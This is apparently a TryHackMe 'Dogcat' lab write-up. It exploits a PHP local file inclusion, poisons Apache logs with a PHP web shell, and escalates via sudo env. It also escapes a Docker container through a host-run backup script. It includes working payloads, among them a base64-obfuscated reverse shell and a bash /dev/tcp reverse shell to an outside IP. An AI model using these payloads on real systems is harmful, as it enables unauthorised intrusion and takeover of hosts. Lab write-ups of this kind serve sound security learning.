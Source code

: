 ```yaml
---
title: Dogcat
description: 'Exploiting an LFI and breaking out of a Docker container'
pubDate: 2023-06-09
category: 'tryhackme'
tags: ['PHP filter', 'docker escape']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/ce2fe16cfcdac475834f262306243b0a.png'
---
```


## LFI
It looks like the word `dog` or `cat` needs to be in the url some where. It also adds `.php` at the end of the `view`-param.

We can exploit this and get the content of the `index.php`:
```
GET /?view=php://filter/convert.base64-encode/resource=/var/www/html/cat/../index HTTP/1.1
...[snip]...
```

## RCE
In the source of the index we can see that we can set the `ext` param and access any file.

Through the LFI we can also access the apache log files and poison the logs to get RCE.

### Log poisoning

```
GET /?ext=&view=cat/../../../../../../var/log/apache2/access.log HTTP/1.1
...[snip]...
User-Agent: <?php system($_REQUEST['cmd']); ?>
...[snip]...
```

Get a reverse shell:
```
GET /?ext=&view=cat/../../../../../../var/log/apache2/access.log&cmd=echo+c2ggLWkgPiYgL2Rldi90Y3AvMTAuOC4xMTkuMTM3LzQ0NDQgMD4mMQ==|base64+-d|bash
...[snip]...
```

## FLAG 1
There is no python (2 or 3) on the machine and it looks like a docker container.

We can upgrade our shell using the script trick:
```bash
SHELL=/bin/bash script -q /dev/null
```

## PRIV ESC
In `/opt/backups` there is a `backup.tar` file which has a copy of the container it seems.
In the `Dockerfile` we find 2 flags and:

```bash
RUN echo "www-data ALL = NOPASSWD: `which env`" >> /etc/sudoers
```

We can exploit this with a GTFOBin like to get root:
```bash
sudo /usr/bin/env /bin/sh
```

## Escaping the container
The `backup.sh` script in `/opt/backups` is run by a process outside of the container.
Since we escalated to root we can modify this script and get a shell on the host.

Add a reverse shell to the `backup.sh` script (make sure its still marked as executable: `chmod +x backups.sh):

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container

bash -i >& /dev/tcp/10.8.119.137/4444 0>&1
```

When the minute rolls over we get a reverse shell on the host.
